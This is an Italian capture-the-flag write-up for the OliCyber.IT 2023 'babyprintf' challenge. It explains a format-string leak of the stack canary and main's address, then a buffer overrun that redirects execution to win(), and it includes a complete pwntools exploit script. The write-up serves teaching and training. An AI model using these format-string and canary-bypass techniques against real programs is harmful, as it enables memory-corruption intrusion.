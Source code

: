 # OliCyber.IT 2023 - Simulazione training camp 2

## [binary] babyprintf (6 risoluzioni)

La challenge fa echo di ogni stringa inserita. Le vulnerabilità nel programma sono un buffer overrun, dato che il numero di byte letti è maggiore della dimensione del buffer (300 vs 32), e una printf con formattatore definito dall'utente.

Il programma contiene una win function che bisogna arrivare a chiamare.

### Soluzione

Usando la printf si possono leakare dallo stack il canary del programma e un indirizzo a main. Con un offset dall'indirizzo di main ottenuto si arriva all'indirizzo della funzione `win()`, che stampa la flag.

Una volta ottenuti i valori necessari basta sovrascrivere il canary e l'indirizzo di ritorno con il buffer overrun, e poi triggerare l'uscita da main scrivendo `!q`

### Exploit

```python
#!/bin/python3

import os
from pwn import *
import logging
logging.disable()

HOST = os.environ.get("HOST", "xxx.challs.olicyber.it")
PORT = int(os.environ.get("PORT", 34001))

io = remote(HOST, PORT)

mem = [b""] * 100

io.recvuntil(b"back:")
for i in range(100):
    io.sendline(f"%{i}$p")
    mem[i] = io.recvline()

cs = mem[12]
canary = eval(cs)

ms = mem[16]
main = eval(ms)
win = main - 54

log.success(f"canary: {hex(canary)}")
log.success(f"main: {hex(main)}")
log.success(f"win: {hex(win)}")

io.sendline(fit({
    32: p64(canary)*2 + p64(win) * 3
}))

io.sendline(b"!q")

f = io.recvline()
f += io.recvline(timeout=0.1)
f += io.recvline(timeout=0.1)

assert "flag" in f

print(f)

```
